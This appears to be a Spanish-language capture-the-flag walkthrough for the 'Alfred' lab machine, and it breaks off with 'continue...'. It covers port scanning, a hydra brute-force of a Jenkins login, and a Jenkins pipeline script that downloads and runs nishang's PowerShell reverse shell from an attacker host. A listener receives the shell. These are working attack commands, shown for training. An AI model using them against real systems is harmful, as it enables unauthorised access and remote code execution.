




# Alfred

## Scanning

```bash
sudo nmap -sS -p- --min-rate 5000 -vvv --open -Pn -n 10.10.114.27 -oG allports
sudo nmap -sC -sV -p 80,3389,8080 -Pn -n 10.10.114.27 -oN targeted
```



```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8080 -V -t 64 10.10.114.27 http-post-form "/loginError/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```

admin:admin

## nishang

```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

Editamos para decirle que haga la reverse shell agregando al final lo siguiente ` Invoke-PowerShellTcp -Reverse -IPAddress 10.13.13.243 -Port 4444`

## Jenkins

||Creamos un pipeline donde le agregamos el siguiente script en java pues en ese lenguaje trabaja jenkins

```java
String cmd = "powershell iex (New-Object Net.WebClient).DownloadString('http://10.13.13.243/Invoke-PowerShellTcp.ps1');";
Runtime.getRuntime().exec(cmd);
```

Esto nos permite realizar una consulta a nuestra computadora en el puerto 80 por el archivo Invoke-PowerShellTcp.ps1

Ahora tmb debes iniciar el servidor para que pueda descargar con `sudo python3 -m http.server 80` y esperar escuchando con netcat `nc -lvp 4444` en el puerto 4444 como indica la modificación que hicimos en el archivo de nishang







 continue...
 
